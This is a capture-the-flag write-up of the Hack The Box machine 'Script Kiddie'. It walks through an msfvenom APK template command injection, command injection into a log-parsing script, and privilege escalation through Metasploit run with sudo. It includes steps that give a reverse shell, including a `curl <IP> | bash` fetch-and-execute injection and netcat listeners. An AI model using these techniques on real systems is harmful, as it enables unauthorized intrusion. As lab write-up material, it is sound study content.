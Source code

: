 # Script Kiddie Writeup (Hack The Box) by [yag1n3](https://github.com/yaguine)

### objetive 
* user flag
* root flag

---

## user flag

### nmap 

![](./images/image1.png)  

### web

we are greeted with a hand-made webpage that let you execute some commands  
![](./images/image2.png)  

you can execute `searchsploit`, `nmap` and `msfvenom` and choose some of its values  
i try a little bit of command injection but i can't  

the "template file" on the "msfvenom" part caught my eye  
i google it, and while doing it, google auto-fills with "msfvenom template exploit"  
seems like in some versions of msfvenom, you cand use a malicious ".apk" as template file for android  
that allows you to execute commands  

i discover the module *exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection*  
this module creates an ".apk" that makes the target send a reverse shell to the selected IP and PORT  
we setup a **netcat listener** and choose "os=android" and our file as template file on the website  
![](./images/image3.png)  

we click "generate"... and voilá !! we have a reverse shell as "kid" and user.txt !!!

--- 

## root flag

it seems like */home/pwn/scanlosers.sh* is an interesting file  
![](./images/image4.png)  

it looks like its reading every line of */home/kid/logs/hackers*  
it's cutting the line in blank spaces and selecting the 3rd element to use it as IP in nmap  
with a little bit of try an error, looks like its executing right after modifying the file *hackers*  
i believe this has to be vulnerable to command injection  

### exploiting the script

first, as proof of concept, im gonna curl a netcat listener  
![](./images/image5.png)  

i use double quotes so the command "cut" doesn't apply to the payload, and backsticks to execute an additional command  
lets save the file...  
![](./images/image6.png)  
it works !!!!

so now you can get a reverse shell as *pwn*  
there are a lot of techniques to choose  
my favorite one goes as follows :
* create a bash script with a reverse shell payload directed to your machine on a chosen port named "index.html"
* start a http server on the same location as the script
* start a netcat listener on the chosen port
* inject the following command : `curl <IP> | bash`
* you should have a reverse shell

### from "pwn" to "root"  

this one is pretty trivial  
![](./images/image7.png)  

after using Metasploit with sudo privileges, we can directly execute system commands on the metasploit shell  
![](./images/image8.png)  

